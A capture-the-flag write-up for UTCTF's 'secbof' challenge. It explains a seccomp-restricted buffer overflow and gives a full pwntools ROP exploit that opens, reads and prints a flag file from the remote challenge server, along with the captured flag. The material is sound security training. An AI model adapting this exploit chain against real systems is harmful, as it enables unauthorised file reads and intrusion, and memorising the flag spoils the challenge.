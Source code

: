 https://ctftime.org/event/2641

# secbof (pwn)

A buffer overflow, but secure. Flag can be accessed at "./flag.txt"

nc challenge.utctf.live 5141

## Analysis

We can see that the binary is compiled with something like `-no-pie`:

```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

`main` @ `0x40191d`:

- Installs a seccomp filter.
- Calls `read(0, local_88, 1000)`.
    - Note that, even though `checksec` claims to find stack canaries, there isn't a stack canary in this function.

We can see that `chal` installs the following seccomp filter:

```bash
$ seccomp-tools dump ./chal 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
```

To be clear this allows us to use `open`, `read`, `write` and `exit`.

## Solution

1) ROP to write "./flag.txt" to a RW region of memory in `.bss`.
2) ROP to call `open(SCRATCH_MEMORY, O_RDONLY)`
    - Note: due the `Docker`/`socat` configuration on the remote that our call to `open` returns `fd = 5` not `fd = 3` as you probably get locally.
3) ROP to call `read(flag, SCRATCH_MEMORY + 24, FLAG_SIZE)`
4) ROP to call `write(stdout, SCRATCH_MEMORY + 24, FLAG_SIZE)`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./chal", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("challenge.utctf.live", 5141)

SCRATCH_MEMORY = 0x4c8f00
GADGET_MOV_QWORD_PTR_RSI_RAX = 0x0000000000452d05 #: mov qword ptr [rsi], rax ; ret
FLAG_SIZE = 32

rop = ROP(elf)
rop.raw(b"A" * 0x88)
# write the path to memory

rop.rsi = SCRATCH_MEMORY
rop.rax = u64(b"./flag.t")
rop.raw(GADGET_MOV_QWORD_PTR_RSI_RAX)
rop.rsi = SCRATCH_MEMORY + 8
rop.rax = u64(b"xt\x00\x00\x00\x00\x00\x00")
rop.raw(GADGET_MOV_QWORD_PTR_RSI_RAX)

# open("./flag.txt", O_RDONLY) => 3
rop.rdi = SCRATCH_MEMORY
rop.rsi = 0
rop.rax = constants.SYS_open
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])

# read(flag, SCRATCH_MEMORY + 24, FLAG_SIZE)
rop.rdi = 5 # note: that we need fd=3 locally and fd=5 remotely
rop.rsi = SCRATCH_MEMORY + 24
rop.rdx = FLAG_SIZE
rop.rax = constants.SYS_read
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])

# write(stdout, SCRATCH_MEMORY + 24, FLAG_SIZE)
rop.rdi = 1
rop.rsi = SCRATCH_MEMORY + 24
rop.rdx = FLAG_SIZE
rop.rax = constants.SYS_write
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])

p.sendlineafter(b"Input> ", rop.chain())

p.readuntil(b"Flag: ")

print(p.readuntil(b"}").decode()) # utflag{r0p_with_4_littl3_catch}
```

## Flag
`utflag{r0p_with_4_littl3_catch}`

smiley 2025/03/15
